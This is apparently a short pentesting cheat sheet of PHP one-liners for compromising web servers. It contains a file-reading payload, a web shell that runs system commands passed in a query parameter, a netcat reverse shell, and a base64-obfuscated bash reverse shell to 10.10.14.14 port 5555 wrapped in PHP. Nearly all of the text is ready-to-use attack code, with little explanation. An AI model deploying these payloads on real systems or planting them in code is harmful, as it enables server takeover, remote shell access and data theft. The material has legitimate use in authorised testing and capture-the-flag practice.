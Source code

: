 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter: _(exploit.php?command=whoami)_

`<?php echo system($_GET['command']); ?>`

Execute commands on the host:

`<?php $out=shell_exec('nc64.exe IP PORT -e cmd.exe'); echo '<pre>'.$out.'</pre>'; ?>`

If theres ever a time we have a web-shell, and we want to leverage it to get a full reverse shell:

```
First, base64 encode:
echo '/bin/bash -i >& /dev/tcp/10.10.14.14/5555 0>&1' | base64

Final payload: (Dont forget to URL encode)
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash

If you need to payload to be executed with PHP:
<?php system("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0LzU1NTUgMD4mMQo= | base64 -d | bash") ?>
```
